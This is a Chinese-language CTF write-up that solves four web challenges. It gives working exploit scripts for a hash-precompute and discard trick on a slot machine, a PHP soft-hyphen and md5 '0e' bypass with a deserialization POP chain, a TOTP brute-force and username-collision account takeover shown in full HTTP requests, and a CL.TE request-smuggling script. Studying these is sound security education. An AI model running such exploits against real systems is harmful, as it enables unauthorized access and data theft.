



> 离 ak web 差最后一道 Technical Debt ，这种大型 web 应用根本没碰过，代码审计也无从下手喵... 不过其他题还挺有意思挺友好的

## Fair Gambling

题目给了源码，`docker compose` 后发现是个老虎机抽奖网址，初始余额 `1000$` ，每次抽奖花费 `50$` ，兑换奖品要 `1_000_000$` ，同时给了个 `fair proof` 说是 `SHA1(❓❓❓) = xxx` ，这似乎就是抽奖结果的 `sha1` 哈希，说明在抽奖前我们就已经知道了这次的结果是什么，开始结合题目源码审计

想要获得 `flag` 需要有充足余额兑奖

```typescript
function redeem(ws: ServerWebSocket<{ userid: string }>) {
  const user = getUser(ws.data.userid);
  if (user.flagBought) {
    send(ws, { type: "flag", flag: FLAG, cash: user.cash });
    return;
  }

  if (user.cash < FLAG_COST) {
    send(ws, {
      type: "error",
      message: `Redeem costs $${FLAG_COST.toLocaleString()}.`,
    });
    return;
  }

  user.cash -= FLAG_COST;
  user.flagBought = true;
  send(ws, { type: "flag", flag: FLAG, cash: user.cash });
}
```

首先老虎机只有 `7` 种 `emoji` ，有各自抽奖权重和奖金

```typescript
const symbols: SymbolDef[] = [
  { emoji: "🍒", weight: 500, payout: 50 },
  { emoji: "🍋", weight: 260, payout: 100 },
  { emoji: "🍇", weight: 130, payout: 250 },
  { emoji: "🍉", weight: 60, payout: 1_000 },
  { emoji: "🔔", weight: 20, payout: 5_000 },
  { emoji: "⭐", weight: 5, payout: 20_000 },
  { emoji: "💎", weight: 25, payout: 100_000 },
];
```

`win` 的要求是抽到的 `3` 个 `emoji` 都一样

```typescript
async function prepareSpin(userid: string) {
  const result = [weightedPick(), weightedPick(), weightedPick()];
  const emojis = result.map((symbol) => symbol.emoji);
  const win = emojis.every((emoji) => emoji === emojis[0]) ? result[0].payout : 0;
  const sid = id();

  const spin = { userid, result: emojis, win, hash: await sha1(emojis.join("")) };
  spins.set(sid, spin);
  return { sid, hash: spin.hash } satisfies SpinRef;
}
```

发现一个无效的 `sid` 能够使得我们无代价的丢弃下一次抽奖的结果，然后返回一个新的抽奖结果

```typescript
function discardPreparedSpins(userid: string) {
  for (const [sid, spin] of spins) {
    if (spin.userid === userid) spins.delete(sid);
  }
}

async function spin(ws: ServerWebSocket<{ userid: string }>, sid?: string) {
  const user = getUser(ws.data.userid);
  const current = sid ? spins.get(sid) : undefined;

  if (!current || current.userid !== ws.data.userid) {
    // An invalid SID deliberately discards a prepared result without charging the user.
    discardPreparedSpins(ws.data.userid);
    send(ws, {
      type: "spin",
      status: "discarded",
      message: "Spin expired. Prepared a replacement.",
      next: await prepareSpin(ws.data.userid),
    });
    return;
  }
```

同时连胜还有奖励，倍率指数增长

```typescript
const STREAK_MULTIPLIER = 3;

  if (win > 0) {
    user.winStreak++;
    win *= STREAK_MULTIPLIER ** (user.winStreak - 1);
  } else {
    user.winStreak = 0;
  }
```

那思路就很清晰了，先在本地把 `7*7*7` 种情况枚举出来再 `sha1` 哈希得到对照表，然后开始无损抽奖，如果发现下次结果没中就故意传错误的 `sid` 来重置下次结果，但余额不变，从而连胜，很快就可以攒够奖金了，开始写利用脚本，本地调试好后直接挂上容器地址开爆

**exp.py**

```python
import websocket
import hashlib
import json
import itertools

base = "wss://fair-gambling-bb2b57db09c5370c-global.challs.brunnerne.xyz/ws"

symbols = [
  { "emoji": "🍒", "weight": 500, "payout": 50 },
  { "emoji": "🍋", "weight": 260, "payout": 100 },
  { "emoji": "🍇", "weight": 130, "payout": 250 },
  { "emoji": "🍉", "weight": 60, "payout": 1_000 },
  { "emoji": "🔔", "weight": 20, "payout": 5_000 },
  { "emoji": "⭐", "weight": 5, "payout": 20_000 },
  { "emoji": "💎", "weight": 25, "payout": 100_000 },
]

def sha1(s):
    return hashlib.sha1(s.encode("utf-8")).hexdigest()

def win_table():
    emojis = [s["emoji"] for s in symbols]	#列表推导式
    payouts = {s["emoji"]: s["payout"] for s in symbols}	#字典推导式

    table = {}

    for combo in itertools.product(emojis, repeat=3):	#枚举的奇妙写法，py 版笛卡尔积(离散数学喵
        text = "".join(combo)
        h = sha1(text)

        is_win = combo[0] == combo[1] == combo[2]	# py 的链式比较
        payout = payouts[combo[0]] if is_win else 0

        table[h] = {	#嵌套字典
            "combo": combo,
            "is_win": is_win,
            "payout": payout,
        }

    return table

def main():
    table = win_table()
    ws = websocket.create_connection(base)

    cash = 1000
    flag_cost = 1000000

    while True:
        data = json.loads(ws.recv())

        if data["type"] == "state":
            cash = data["cash"]
            flag_cost = data["flagCost"]
            next_spin = data["next"]

        elif data["type"] == "spin":
            if data["status"] == "revealed":
                cash = data["cash"]
                if cash >= flag_cost:
                    ws.send(json.dumps({"type":"redeem"}))
                    continue
                next_spin = data["next"]
            elif data["status"] == "discarded":
                next_spin = data["next"]

        elif data["type"] == "flag":
            print("Flag:",data["flag"])
            break

        sid = next_spin["sid"]
        h = next_spin["hash"]
        result = table[h]

        if result["is_win"]:
            print(result["combo"])
            ws.send(json.dumps({"type":"spin","sid":sid}))
        else:
            print("discard")
            ws.send(json.dumps({"type":"spin","sid":"fake"}))

    ws.close()


if __name__ == "__main__":
    main()
```

```text
(venv) resi@MacBook-Air 脚本 % /Users/resi/Desktop/CTF/脚本/venv/bin/python /Users/resi/Desktop/CTF/脚本/exp.py
discard
('🍋', '🍋', '🍋')
discard
discard
discard
discard
discard
discard
('🍒', '🍒', '🍒')
discard
discard
discard
discard
discard
('🍒', '🍒', '🍒')
('🍒', '🍒', '🍒')
discard
discard
discard
discard
('🍒', '🍒', '🍒')
discard
('🍒', '🍒', '🍒')
('🍒', '🍒', '🍒')
('🍋', '🍋', '🍋')
discard
discard
discard
discard
discard
discard
discard
('🍋', '🍋', '🍋')
discard
discard
discard
discard
('🍒', '🍒', '🍒')
Flag: brunner{l3ts_g0_g4mbl1ng}
```

### Flag

```text
brunner{l3ts_g0_g4mbl1ng}
```

## PHP 2003

`dirsearch` 扫出来一些目录

```text
[17:29:42] Scanning: 
[17:31:16] 200 -    1KB - /index.php                                        
[17:31:16] 200 -    1KB - /index.php/login/                                 
[17:31:48] 200 -   114B - /robots.txt                                       
[17:31:50] 403 -   358B - /server-status                                    
[17:31:50] 403 -   358B - /server-status/
```

其中 `/robots.txt` 泄漏了一些路由

```text
User-agent: *
Disallow: /cgi-bin/
Disallow: /stats/
Disallow: /webmail/
Disallow: /private/
Disallow: /index.phps
```

其他几个访问都 `404` ，不过在 `/index.phps` 发现源码 :

```php
<?php
declare(strict_types=1);

const ACCESS_CODE_HASH = '0e769468064680399918991535722650';

final class Voucher
{
    public function __toString(): string
    {
        return getenv('WEBHOTEL_LICENSE_KEY') ?: 'brunner{REDACTED}';
    }
}

final class Receipt
{
    public bool $flushOnShutdown = false;
    public mixed $voucher = null;

    public function __destruct()
    {
        if ($this->flushOnShutdown && $this->voucher instanceof Voucher) {
            $flag = htmlspecialchars((string) $this->voucher, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
            echo '<div class="result flag">' . $flag . '</div>';
        }
    }
}

final class Booking
{
    public string $user = '';
    public string $role = 'guest';
    public mixed $receipt = null;
}

function legacy_cgi_request(): bool
{
    $raw = $_SERVER['QUERY_STRING'] ?? '';
    $decoded = urldecode($raw);

    if (str_contains($decoded, '-')) {
        return false;
    }

    $normalized = str_replace("\u{00AD}", '-', $decoded);
    return trim($normalized) === '-d webhotel.legacy=1';
}

function first_serialized_string(string $serialized, string $property): ?string
{
    $name = preg_quote($property, '/');
    $pattern = '/s:' . strlen($property) . ':"' . $name . '";s:(\d+):"(.*?)";/s';

    if (!preg_match($pattern, $serialized, $match)) {
        return null;
    }

    return strlen($match[2]) === (int) $match[1] ? $match[2] : null;
}

$message = '';
$messageClass = 'error';
$destroyBooking = null;

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $staffPin = (string) ($_POST['staff_pin'] ?? '');
    $encodedReservation = (string) ($_POST['reservation_export'] ?? '');
    $reservation = base64_decode($encodedReservation, true);

    if (!legacy_cgi_request()) {
        $message = 'The reservation service is unavailable.';
    } elseif (md5($staffPin) != ACCESS_CODE_HASH) {
        $message = 'Recovery code rejected.';
    } elseif ($reservation === false) {
        $message = 'Reservation export rejected.';
    } elseif (first_serialized_string($reservation, 'role') !== 'guest') {
        $message = 'Only customer reservations can be imported.';
    } else {
        $booking = @unserialize($reservation, [
            'allowed_classes' => [Booking::class, Receipt::class, Voucher::class],
        ]);

        if (!$booking instanceof Booking) {
            $message = 'Reservation export could not be read.';
        } elseif ($booking->role !== 'admin') {
            $message = 'A staff reservation is required.';
        } elseif (!$booking->receipt instanceof Receipt) {
            $message = 'Receipt missing from reservation export.';
        } else {
            $booking->receipt->flushOnShutdown = true;
            $destroyBooking = $booking;
            $message = 'Reservation imported.';
            $messageClass = 'ok';
        }
    }
}
?>
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <title>Brunnerne Hosting · Customer Area</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
<table class="shell" role="presentation">
    <tr><td class="titlebar">BRUNNERNE HOSTING</td></tr>
    <tr><td class="nav">Home  |  Customers  |  Webmail  |  Support</td></tr>
    <tr><td class="content">
        <div class="panel">
            <div class="panel-title">Reservation import</div>
            <p class="intro">The original booking system is no longer in service. Staff can restore a customer reservation from an exported booking file.</p>
            <form method="post">
                <label>Staff recovery code</label>
                <input name="staff_pin" autocomplete="off">

                <label>Reservation export</label>
                <textarea name="reservation_export" rows="7" spellcheck="false"></textarea>

                <button type="submit">Import reservation</button>
            </form>
            <?php if ($message !== ''): ?>
                <div class="result <?= $messageClass ?>"><?= htmlspecialchars($message, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?></div>
            <?php endif; ?>
            <?php
            if ($destroyBooking !== null) {
                unset($destroyBooking);
                unset($booking);
            }
            ?>
        </div>
    </td></tr>
    <tr><td class="footer">Brunnerne Hosting ApS · Customer services · Portal build 2003.11</td></tr>
</table>
</body>
</html>
```

显然是 `php` 反序列化，开始分析构造 `pop` 链

```php
final class Voucher
{
    public function __toString(): string
    {
        return getenv('WEBHOTEL_LICENSE_KEY') ?: 'brunner{REDACTED}';
    }
}
```

终点是 `Voucher` 的 `__toString()`

```php
final class Receipt
{
    public bool $flushOnShutdown = false;
    public mixed $voucher = null;

    public function __destruct()
    {
        if ($this->flushOnShutdown && $this->voucher instanceof Voucher) {
            $flag = htmlspecialchars((string) $this->voucher, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
            echo '<div class="result flag">' . $flag . '</div>';
        }
    }
}
```

所以这里要控制 `$this->voucher` 为 `Voucher` 对象，同时设置 `$this->flushOnShutdown` 为 `true` ，因为这里的 `$flushOnShutdown` 是 `public` 所以可以直接在序列化字符串里写，然后触发其析构函数需要有个 `Receipt` 对象

开始看网页逻辑

我们需要 `POST` 发送一个 `http` 请求，同时传入 `staff_pin` 和 `reservation_export`

第一步要绕过 `!legacy_cgi_request()` ，需要控制 `url` 参数最终为 `-d webhotel.legacy=1` ，但包含 `-` 会被置 `false` ，但后面有 `str_replace("\u{00AD}", '-', $decoded)` ，在 `CyberChef` 里 `Unicode` 解码然后 `UTF-8` 编码最后 `URL` 编码，将 `?\u00ADd webhotel.legacy=1` 转为 `?%C2%ADd%20webhotel%2Elegacy=1` 即可绕过

```php
function legacy_cgi_request(): bool
{
    $raw = $_SERVER['QUERY_STRING'] ?? '';
    $decoded = urldecode($raw);

    if (str_contains($decoded, '-')) {
        return false;
    }

    $normalized = str_replace("\u{00AD}", '-', $decoded);
    return trim($normalized) === '-d webhotel.legacy=1';
}
```

第二步要绕过 `md5($staffPin) != ACCESS_CODE_HASH` ，这里是弱比较，使用已知的 `md5(QNKCDZO)=0e830400451993494058024219903391` 即可绕过

第三步是保证 `reservation_export` 是合法 `base64` 字符串

第四步是绕过初步匹配 `first_serialized_string($reservation, 'role') !== 'guest'` ，但这里的 `first_serialized_string` 函数是做的正则匹配且只捕获并返回找到的第一个 `role` 的值，这里控制它能找到的第一个 `role` 为 `guest` 即可

```php
function first_serialized_string(string $serialized, string $property): ?string
{
    $name = preg_quote($property, '/');
    $pattern = '/s:' . strlen($property) . ':"' . $name . '";s:(\d+):"(.*?)";/s';

    if (!preg_match($pattern, $serialized, $match)) {
        return null;
    }

    return strlen($match[2]) === (int) $match[1] ? $match[2] : null;
}
```

第五步就进入反序列化了，后面都不用管了

**exp.php**

```php
<?php

final class Voucher
{
}

final class Receipt
{
    public bool $flushOnShutdown;
    public mixed $voucher;
}

final class Booking
{
    public string $user;
    public string $role;
    public mixed $receipt;
}

$booking = new Booking();
$booking -> user = "";
$booking -> role = "guest";
$receipt = new Receipt();
$receipt -> flushOnShutdown = true;
$voucher = new Voucher();
$receipt -> voucher = $voucher;
$booking -> receipt = $receipt;

$payload=serialize($booking);
print($payload);
print("\n");
print(base64_encode($payload));
print("\n");
```

成功得到最终 `flag`



### Flag

```text
brunner{php_was_a_web_framework_and_a_fever_dream}
```

## Dumb-factor Authentication

```text
User-agent: *
Disallow: /feedback/view?id=
```

`robots.txt` 泄漏，但直接访问 `/feedback/view?id=` 没权限

```text
In the interest of peak operational efficiency, I have completely deleted the legacy username and password fields. Who needs them? From now on, the portal runs exclusively on raw TOTP PINs!
```

网页描述提示登陆用的 `TOTP身份验证器` 而非 `用户名+密码`

```text
We are also thrilled to announce that the Brunnerne HR platform has officially crossed the 1,000 registered users milestone.
```

并且用户还很多，直接开始爆破 `pin`

成功尝试出来一个 `session`

```text
session=MTc4NzQ4MzI1NXxEWDhFQVFMX2dBQUJFQUVRQUFCTl80QUFBZ1p6ZEhKcGJtY01DUUFIZFhObGNsOXBaQU5wYm5RRUJBRC1BXzRHYzNSeWFXNW5EQW9BQ0hWelpYSnVZVzFsQm5OMGNtbHVad3dSQUE5d2NtOTRlVjloWkcxcGJsODFNRGs9fJwTzo9zgzp8MZBR1De9KjNNBJWY-qQVgP6BekMPjdQj
```

登陆后看到另外两段网页信息

```text
Emergency Security Incident: Keycard Replacements Required
Attention all personnel: Due to a major physical security incident yesterday involving Kjell and a military-grade degausser (which successfully erased all magnetic strips, keycard credentials, and employee credit cards in a 50-foot radius), your current physical badges are completely non-functional. Please report to the temporary security tent in the parking lot to collect a newly issued keycard. Thank you for your patience!
Facilities Team • May 29, 2026

Security Advisory: Choosing Unique Usernames
Following the launch of our simplified passwordless single-factor TOTP login system, we have noticed some minor login issues due to username collisions. Please make sure your username on the settings dashboard is completely unique.
Security Operations • May 28, 2026
```

说明我们能更换 `keycard` 且后端允许用户名重复，能改名为 `admin`

那这里大概就是改名为 `admin` 然后换 `keycard` 登陆来正式获得 `admin` 权限了

改名 `admin` :

```http
POST /settings HTTP/2
Host: dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz
Cookie: session=MTc4NzQ4MzI1NXxEWDhFQVFMX2dBQUJFQUVRQUFCTl80QUFBZ1p6ZEhKcGJtY01DUUFIZFhObGNsOXBaQU5wYm5RRUJBRC1BXzRHYzNSeWFXNW5EQW9BQ0hWelpYSnVZVzFsQm5OMGNtbHVad3dSQUE5d2NtOTRlVjloWkcxcGJsODFNRGs9fJwTzo9zgzp8MZBR1De9KjNNBJWY-qQVgP6BekMPjdQj
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Google Chrome";v="151", "Chromium";v="151"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Origin: https://dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz/settings
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

action=update_username&username=admin
```

```http
HTTP/2 302 Found
Date: Sun, 23 Aug 2026 11:14:12 GMT
Location: /settings
Set-Cookie: session=MTc4NzQ4MzY1MnxEWDhFQVFMX2dBQUJFQUVRQUFCRF80QUFBZ1p6ZEhKcGJtY01DUUFIZFhObGNsOXBaQU5wYm5RRUJBRC1BXzRHYzNSeWFXNW5EQW9BQ0hWelpYSnVZVzFsQm5OMGNtbHVad3dIQUFWaFpHMXBiZz09fOpdyf_h6ORopT44XJm1_EcNfwn4vcS5UB09KI9wV4D_; Path=/; Expires=Tue, 22 Sep 2026 11:14:12 GMT; Max-Age=2592000; HttpOnly; SameSite=Lax
X-Deployment-Id: dumb-factor-authentication-d6b2edefc3e4a2db-global
X-Team-Id: 819
X-Terminal-Id: global
Content-Length: 0
```

拿改名后的 `session` 重置 `key`

```http
POST /settings HTTP/2
Host: dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz
Cookie: session=MTc4NzQ4MzY1MnxEWDhFQVFMX2dBQUJFQUVRQUFCRF80QUFBZ1p6ZEhKcGJtY01DUUFIZFhObGNsOXBaQU5wYm5RRUJBRC1BXzRHYzNSeWFXNW5EQW9BQ0hWelpYSnVZVzFsQm5OMGNtbHVad3dIQUFWaFpHMXBiZz09fOpdyf_h6ORopT44XJm1_EcNfwn4vcS5UB09KI9wV4D_
Content-Length: 17
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Google Chrome";v="151", "Chromium";v="151"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36
Origin: https://dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://dumb-factor-authentication-d6b2edefc3e4a2db-global.challs.brunnerne.xyz/settings
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

action=reset_totp
```

返回了二维码

```text
https://api.qrserver.com/v1/create-qr-code/?size=180x180&data=otpauth://totp/BrunnerneHR:admin?secret=IV6LKLKMFWT3Q2OY%26issuer=BrunnerneHR
```

拿到 `secret=IV6LKLKMFWT3Q2OY` ，直接脚本生成 `TOTP验证码`

```python
import pyotp

secret = "IV6LKLKMFWT3Q2OY"
totp = pyotp.TOTP(secret)
print(totp.now())
```

拿到验证码正式登陆进 `admin` ，然后拿着 `session` 爆破 `/feedback/view?id=` 路由，在 `id=24` 找到了 `flag`



### Flag

```text
brunner{ch1ef_duck_0ff1c3r_4ppr0v3d_th1s_fl4g}
```

## Welcome Aboard

`/robots.txt` 泄漏了 `/wiki/internal/flag`

```text
User-agent: *
Disallow: /wiki/internal/flag
```

但直接访问被禁止

```text
Access is forbidden.
```

结合题目描述 `and IT is confident every chunk reaches the backend, exactly as expected.` 猜测应该是 `CLTE` 走私

**exp.py**

```python
import socket
import ssl

HOST = "welcome-aboard-ea9173461961a63c-global.challs.brunnerne.xyz"
PORT = 1337
TIMEOUT = 10

# 第二个请求(走私)
smuggled = (
    b"0\r\n\r\n"
    b"GET /wiki/internal/flag/ HTTP/1.1\r\n"
    b"Host: welcome-aboard-ea9173461961a63c-global.challs.brunnerne.xyz:1337" + b"\r\n"
    b"Connection: close\r\n\r\n"
)

# 第一个请求
payload = (
    b"GET / HTTP/1.1\r\n"
    b"Host: welcome-aboard-ea9173461961a63c-global.challs.brunnerne.xyz:1337" + b"\r\n"
    + f"Content-Length: {len(smuggled)}\r\n".encode()
    + b"Transfer-Encoding: chunked\r\n"
    + b"Connection: keep-alive\r\n\r\n"
    + smuggled
)

print(f"Content-Length = {len(smuggled)}")
print(f"总发送字节数 = {len(payload)}\n")

raw = socket.create_connection((HOST, PORT), timeout=TIMEOUT)
context = ssl.create_default_context()
s = context.wrap_socket(raw, server_hostname=HOST)
s.settimeout(TIMEOUT)
s.sendall(payload)

resp = b""

try:
    while True:
        data = s.recv(4096)
        if not data:
            break
        resp += data
except socket.timeout:
    print("超时")

print(resp.decode("utf-8", errors="replace"))
s.close()
```

成功抓到 `flag`

```text
(venv) resi@MacBook-Air 脚本 % /Users/resi/Desktop/CTF/脚本/venv/bin/python /Users/resi/Desktop/CTF/脚本/smuggle.py
Content-Length = 133
总发送字节数 = 296

HTTP/1.1 200 OK
Content-Length: 3756
Content-Type: text/html
Date: Sun, 23 Aug 2026 10:24:37 GMT
Server: Kestrel

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width,initial-scale=1">
<title>Brunnerne Inc. Wiki | Brunnerne Inc. Wiki</title>
<style>
:root{color-scheme:light}
*{box-sizing:border-box}
body{margin:0;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Helvetica,Arial,sans-serif;background:#f2f1f7;color:#2c2c3a}
a{color:#6a4fe0}
header{background:linear-gradient(180deg,#6f4fe0,#5b3fd6)}
.header-top{max-width:1100px;margin:0 auto;padding:22px 32px 0;display:flex;align-items:center;justify-content:space-between;flex-wrap:wrap;gap:12px}
.brand{color:#fff;font-weight:700;font-size:22px;letter-spacing:.01em;text-decoration:none}
.header-top nav{display:flex;align-items:center}
.header-top nav a{color:#e2dbfb;text-decoration:none;margin-left:26px;font-size:14px}
.header-top nav a:hover{color:#fff}
.header-top nav a.active{color:#fff;font-weight:600}
.contact-btn{border:1px solid rgba(255,255,255,.55)!important;padding:8px 18px;border-radius:6px}
.search-wrap{max-width:1100px;margin:0 auto;padding:22px 32px 40px}
.search-hero{background:rgba(255,255,255,.16);border-radius:10px;padding:16px 20px;display:flex;align-items:center;gap:12px}
.search-hero svg{flex:none;opacity:.85}
.search-hero input{flex:1;background:transparent;border:none;outline:none;color:#fff;font-size:16px}
.search-hero input::placeholder{color:#d9d2f7}
.breadcrumb{max-width:820px;margin:28px auto 0;padding:0 24px;font-size:13px;color:#9797a6}
.card{max-width:820px;margin:14px auto 60px;background:#fff;border-radius:12px;padding:44px 48px;box-shadow:0 1px 3px rgba(20,20,40,.06)}
h1{margin:0 0 22px;font-size:28px;font-weight:700;color:#1c1c2b;line-height:1.3}
.byline{display:flex;align-items:center;gap:10px;color:#9797a6;font-size:13px;margin-bottom:28px}
.byline .avatar{width:34px;height:34px;border-radius:50%;background:#e4e0f8;color:#6a4fe0;display:flex;align-items:center;justify-content:center;font-weight:700;font-size:13px}
.card p{color:#54546a;line-height:1.75;font-size:15px}
.article-list{list-style:none;padding:0;margin:0}
.article-list li{margin:0 0 10px}
.article-list a{display:block;padding:14px 18px;background:#faf9fd;border:1px solid #ece9f7;border-radius:8px;color:#2c2c3a;text-decoration:none;font-weight:600}
.article-list a:hover{border-color:#c9bdf5;background:#f5f2fd}
.back-link{display:inline-block;margin-top:8px;font-size:14px;text-decoration:none}
footer{font-size:12px;color:#9797a6;text-align:center;padding:24px}
</style>
</head>
<body>
<header>
<div class="header-top">
<a class="brand" href="/">Brunnerne Inc.</a>
</div>
<div class="search-wrap">
<form class="search-hero" method="post" action="/search">
<svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="#fff" stroke-width="2"><circle cx="11" cy="11" r="7"/><line x1="21" y1="21" x2="16.65" y2="16.65"/></svg>
<input type="text" name="q" placeholder="Search for answers...…">
</form>
</div>
</header>
<div class="breadcrumb">Help Center</div>
<main class="card">
<h1>Welcome to the wiki</h1>
<p>This is the company's internal FAQ and knowledge base. Browse the articles below, or use
the search bar above to find what you're looking for.</p>
<ul class="article-list">
<li><a href="/wiki/getting-started">Getting Started at Brunnerne Inc.</a></li>
<li><a href="/wiki/vpn-setup">VPN Setup Guide</a></li>
<li><a href="/wiki/expense-reports">Filing Expense Reports</a></li>
<li><a href="/wiki/pto-policy">Time Off Policy</a></li>
<li><a href="/wiki/office-locations">Office Locations</a></li>
<li><a href="/wiki/it-support">Contacting IT Support</a></li>
</ul>
<a class="back-link" href="/">← Back to wiki</a>
</main>
<footer>Brunnerne Inc. internal knowledge base</footer>
</body>
</html>HTTP/1.1 200 OK
Content-Length: 3453
Connection: close
Content-Type: text/html
Date: Sun, 23 Aug 2026 10:24:37 GMT
Server: Kestrel

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width,initial-scale=1">
<title>Q4 Payroll Notes (Internal) | Brunnerne Inc. Wiki</title>
<style>
:root{color-scheme:light}
*{box-sizing:border-box}
body{margin:0;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Helvetica,Arial,sans-serif;background:#f2f1f7;color:#2c2c3a}
a{color:#6a4fe0}
header{background:linear-gradient(180deg,#6f4fe0,#5b3fd6)}
.header-top{max-width:1100px;margin:0 auto;padding:22px 32px 0;display:flex;align-items:center;justify-content:space-between;flex-wrap:wrap;gap:12px}
.brand{color:#fff;font-weight:700;font-size:22px;letter-spacing:.01em;text-decoration:none}
.header-top nav{display:flex;align-items:center}
.header-top nav a{color:#e2dbfb;text-decoration:none;margin-left:26px;font-size:14px}
.header-top nav a:hover{color:#fff}
.header-top nav a.active{color:#fff;font-weight:600}
